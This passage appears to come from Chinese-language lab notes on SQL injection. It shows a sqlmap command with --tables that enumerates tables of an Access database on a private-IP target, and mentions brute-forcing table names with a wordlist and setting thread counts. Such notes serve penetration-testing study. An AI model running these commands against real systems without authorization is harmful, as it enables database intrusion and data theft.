 发现数据库版本和操作系统版本就可以确定存在SQL注入

![image-20240411210633934](../图片/image-20240411210633934.png)

因为是access数据库，查询表面

```
python sqlmap.py -u http://192.168.100.122:89/pic.asp?classid=4 --tables
```

![image-20240411211021292](../图片/image-20240411211021292.png)

是否使用默认的字典进行表名爆破

可以更改默认字典进行爆破

```
common-tables.txt
```

![image-20240411211056033](../图片/image-20240411211056033.png)



默认线程1，最大线程10

![image-20240411211228669](../图片/image-20240411211228669.png)
